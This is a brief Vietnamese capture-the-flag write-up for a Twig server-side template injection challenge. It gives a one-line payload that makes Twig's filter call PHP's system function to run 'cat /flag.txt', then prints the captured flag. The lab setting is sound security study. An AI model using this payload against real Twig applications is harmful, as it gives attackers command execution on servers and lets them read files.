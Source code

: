 # Hello Twig

Như tên bài thì vẫn là ssti với twig

Payload: *['cat /flag.txt']|filter('system')*
*Flag: CHH{SSTI_PHP_S1mpl3Twig_550aa1d04b8f426bea90171c69d9a04e}*